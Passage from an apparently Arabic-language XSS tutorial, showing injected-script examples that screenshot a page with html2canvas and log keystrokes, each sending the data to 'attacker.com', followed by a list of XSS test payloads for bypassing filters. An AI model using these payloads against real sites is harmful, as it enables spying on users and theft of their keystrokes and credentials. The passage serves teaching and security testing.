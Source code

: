 ### 4. التقاط لقطات الشاشة

```javascript
// استخدام HTML2Canvas لالتقاط لقطة شاشة
const script = document.createElement('script');
script.src = 'https://html2canvas.hertzen.com/dist/html2canvas.min.js';
script.onload = function() {
    html2canvas(document.body).then(canvas => {
        // تحويل اللقطة إلى صورة
        const image = canvas.toDataURL('image/png');
        // إرسال الصورة إلى المهاجم
        fetch('https://attacker.com/screenshot', {
            method: 'POST',
            body: image
        });
    });
};
document.body.appendChild(script);
```

### 5. التسجيل الكامل للضغطات المفاتيح

```javascript
// تسجيل ضغطات المفاتيح
const keys = [];
document.addEventListener('keydown', function(e) {
    keys.push({
        key: e.key,
        time: new Date().getTime(),
        target: e.target.nodeName,
        id: e.target.id
    });
    
    // إرسال البيانات كل 10 ضغطات
    if (keys.length >= 10) {
        navigator.sendBeacon("https://attacker.com/keylog", JSON.stringify(keys));
        keys.length = 0; // تفريغ المصفوفة
    }
});
```

## اكتشاف ثغرات XSS المتقدمة

### الاختبار اليدوي

للاكتشاف المتقدم، يمكن استخدام سلسلة من الشيفرات الاختبارية المصممة للتغلب على آليات الحماية المختلفة:

```
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg onload=alert(1)>
"autofocus onfocus=alert(1)//
javascript:alert(1)
'-alert(1)-'
");alert(1);//
`-alert(1)`
\";alert(1);//
```
